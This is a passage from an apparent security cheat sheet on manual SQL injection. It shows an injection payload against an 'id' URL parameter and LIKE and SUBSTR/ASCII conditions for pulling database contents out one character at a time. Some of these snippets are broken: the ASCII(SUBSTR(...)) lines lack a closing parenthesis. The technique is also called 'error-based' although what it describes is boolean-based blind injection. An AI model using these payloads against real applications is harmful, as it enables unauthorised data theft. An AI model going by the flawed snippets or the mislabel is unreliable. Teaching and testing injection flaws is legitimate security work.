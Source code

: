 </div></div>

<hr class="sep-both">

## Manual Error-based SQLi

<div class="row row-cols-md-2"><div>

You better be prepared, manual error-based SQLi may take QUITE some time, as you may have to iterate a lot of characters. Let's say you found the following GET form to be injectable. If you use "1", you can see a valid account, but if you return "0", you will see "page not found".

```none
GET /account?id=1
```

Then, your starting point will be

```none
GET /account?id=1' AND 1=0-- -
```

Now, even if the id is valid, you will see "page not found". If you use `1=1`, everything should work like before. That's how you will have to play with the request. When you got "page not found", it will mean that you condition failed, and bit-by-bit you will map the database. There are two well-known way to process

* Using LIKE <small>(work on text AND numbers)</small>

```none
WHERE text LIKE 'a%'
-- is text starting with 'a'
WHERE text LIKE '%0%'
-- do the text contains 0?
```

* Using SUBSTR, and ASCII/CAST

```none
WHERE ASCII(SUBSTR(text,1,1) = ASCII('a')
-- extract the the first character (pos=1, len=1)
-- of a text 'text'. Convert the character to ASCII
-- and, check if this is the same as the ASCII of 'a'
```

**Why?**: You would (obviously) want to go with LIKE, but it won't always work. For instance, the parameter may be transformed to lowerCase/upperCase according to what the programmer wants...

```none
-- find the ASCII (do it inside YOUR DBMS)
SELECT ASCII('A') -- 65

-- then use
WHERE ASCII(SUBSTR(text,1,1) = 65
-- some are using "65 to HEX" = X'41'
WHERE SUBSTR(text,1,1) = CAST(X'41' as char)
```

</div><div>

